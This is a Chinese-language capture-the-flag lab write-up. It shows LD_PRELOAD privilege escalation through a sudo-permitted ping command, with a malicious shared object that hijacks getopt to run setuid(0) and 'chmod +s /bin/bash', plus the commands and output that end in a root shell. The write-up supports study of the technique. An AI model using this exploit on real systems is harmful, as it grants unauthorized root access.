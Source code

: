 当我们使用 `Ping` 命令时，就会调用很多动态链接库文件（.so文件）里面的函数，而 `LD_PRELOAD` 这个环境变量允许我们指定优先调用的动态链接库文件。
所以我们可以写一个恶意的so文件，替换里面被调用函数的功能，然后让其 `ping` 以root用户运行这个函数 实现提权

首先我们需要获取到一个 `ping` 命令时一定会执行函数
ida反编译 `ping`
这里我选择 `getopt` 函数。因为他的作用是获取参数。所以基本上一定会被调用
![assets/Pasted image 20241221221544.png](/img/user/24-%E6%B8%97%E9%80%8F/HMV/assets/Pasted%20image%2020241221221544.png)

编译恶意so文件
```c
int getopt(char *s){
	setuid(0);
	setgid(0);
	system("chmod +s /bin/bash");
}

gcc a.c  -o pwn.so -shared
```
> 这里我用Kali2024的编译不行
> 会报错
![assets/Pasted image 20241221224044.png](/img/user/24-%E6%B8%97%E9%80%8F/HMV/assets/Pasted%20image%2020241221224044.png)

可以换一个版本 。应该是gcc版本的问题。
![assets/Pasted image 20241221224102.png](/img/user/24-%E6%B8%97%E9%80%8F/HMV/assets/Pasted%20image%2020241221224102.png)

然后把编译后的 `pwn.so` 传上去就行了
```bash
sudo -u root LD_PRELOAD=/tmp/pwn.so /usr/bin/ping 1.1.1.1

des$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1168776 Apr 18  2019 /bin/bash
leonard@diophante:/var/www/html/blog/wp-content/plugins/site-editor/editor/extensions/pagebuilder/inclu
des$ bash -p

bash-5.0# whoami
root
bash-5.0# ls /root
root.txt
bash-5.0# cat /root/root.txt
Culcelborlus

```